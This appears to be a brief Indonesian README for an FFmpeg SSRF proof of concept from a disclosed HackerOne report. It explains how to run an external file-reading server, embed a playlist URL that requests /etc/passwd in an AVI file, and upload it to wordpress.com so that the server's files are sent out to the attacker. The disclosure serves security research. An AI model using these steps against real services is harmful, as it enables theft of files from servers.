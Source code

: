 # SSRF-ffmpeg
1.Dapatkan droplet / VPS / apapun dengan IP eksternal. Luncurkan skrip saya seperti ini: python3 file_reading_server.py --external-addr <external-ip-of-your-server> --port 8080(Anda memerlukan python3.5).
2.Seperti di SSRF repro langkah 1, memodifikasi http_q.avisehingga link di dalamnya akan mengarah ke server Anda dan menjadi seperti ini: http://<external-ip-of-your-server>:8080/initial.m3u?filename=/etc/passwd. Anda dapat mengganti /etc/passwddengan nama file lain jika Anda mau.
3.Seperti di repro SSRF langkah 2, unggah file yang dihasilkan ke wordpress.com dan klik "Edit". Setelah beberapa saat, beberapa keluaran debug dari skrip saya akan dicetak ke konsol (karena permintaan SSRF). Tunggu sampai keluarannya berhenti. Kemudian periksa arah kerja skrip. Ini akan berisi file dengan nama seperti ini: <some random string>_<filename-without-slashes>. Isi file ini diterima dari node yang menjalankan FFmpeg.
  
  reports: https://hackerone.com/reports/237381
